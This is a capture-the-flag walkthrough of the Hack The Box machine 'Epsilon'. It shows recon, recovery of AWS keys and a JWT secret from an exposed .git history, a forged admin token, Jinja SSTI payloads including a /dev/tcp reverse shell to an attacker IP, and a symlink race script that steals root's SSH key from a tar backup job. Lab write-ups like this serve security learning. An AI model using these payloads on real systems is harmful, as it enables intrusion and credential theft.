

# [Epsilon](https://app.hackthebox.com/machines/epsilon)

```bash
nmap -p- --min-rate 10000 10.10.11.134 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.
```bash
nmap -A -sC -sV -p22,80,5000 10.10.11.134 -Pn
```


I add `epsilon.htb` domain record into `/etc/hosts` for this ip address.


From nmap scan result, I see that for port `80`, there's `.git` directory.


Let's dump this via [git_dumper](https://github.com/arthaud/git-dumper)

```bash
python3 git_dumper.py http://10.10.11.134/.git/ /home/kali/Desktop/webapp
```


Let's look at `git` history (means commits) via `git log` command.
```bash
git log --name-only --oneline
```


Let's commit back to `7cf92a7` commit via `git checkout` command.
```bash
git checkout 7cf92a7
```


From here, I can see sensitive credentials of `aws`.

AWS Access Key Id: "AQLA5M37BDN6FJP76TDC"
Aws Secret Access Key: "OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A"
Defualt Region Name: "us-east-1"
Endpoint-Url: "http://cloud.epsilong.htb"

But, we need to add this subdomain `cloud.epsilon.htb` into `/etc/hosts` file 


Let's connect into AWS via `aws configure`.


After connection is initiated, we can functions for specified URL via `aws lambda` command.

```bash
aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb
```


Let's get function `custome_shop_v1` details
```bash
aws lambda get-function --function-name=costume_shop_v1 --endpoint-url=http://cloud.epsilon.htb 
```


Now, we can see `Code` location, let's download.
```bash
wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
```

This is `ZIP` file, after downloading this, we make `unzip` and read this, there's `lambda_function.py` file.


Here, I find `secret_key` value, which I will use `Forge JWT Token`.


secret: 'RrXCv`mrNe!K!4+5`wYq'


To create JWT token, I will use `Python CLI`.
```bash
import jwt
secret="RrXCv`mrNe!K!4+5`wYq"
jwt.encode({"username":"dr4ks"}, secret, algorithm='HS256')
```




I add my cookie `auth`=JWT_token and browse the `/home` page.


I successfully authenticated as `admin` and browse the page.


I analyze `/order` endpoint and enumerate `custome` body parameter.

I just check `SSTI` (Server-Side Template Injection) by injecting simple calculation `{{7*7}}` and it returns `49`.


Let's add system command here by using native template syntax.
```bash
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```


Let's inject `reverse shell` payload here.
```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/10.10.14.18/1337 0>%261"').read() }}
```


Hola!, I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


user.txt


For `Privilege Escalation` vector, I just upload `pspy64` into machine to analyze background jobs.

First, I open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```


Second, I download this binary into target machine via `wget` command.
```bash
wget http://10.10.14.18:8080/pspy64
```


Let's run this to see.


I see `backup.sh` script which runs with duration of specific time.


Let's read content of this script.


On line which `tar` binary uses `-h` option is considered for `Follow symlinks; archive and dump the files they point to.`

That's why I wrote `.sh` script that makes a link between private key (id_rsa) file of `root` user and `/opt/backups/checksum`.

```bash
#!/bin/bash
while true; do 
        if [ -e /opt/backups/checksum ]; then 
                rm -f /opt/backups/checksum
                echo "File deleted" 
                ln -s -f /root/.ssh/id_rsa /opt/backups/checksum 
                echo "Symlink created" 
                break
        fi; 
done
```


I run this script.


Let's look at `/var/backups/web_backups` folder and extract `.tar` files.


Then, I go to `/opt` directory and found `backups` directory.


While making extraction of this tar files, I found `app.py` file which contains sensitive credentials.


admin: 4d_09@fhgRTdws2


I checked this for `root` user, but doesn't work.

I find `private_key` file (id_rsa) named on `checksum` file.


Let's copy this and use for `authentication`.
```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.134
```

root.txt

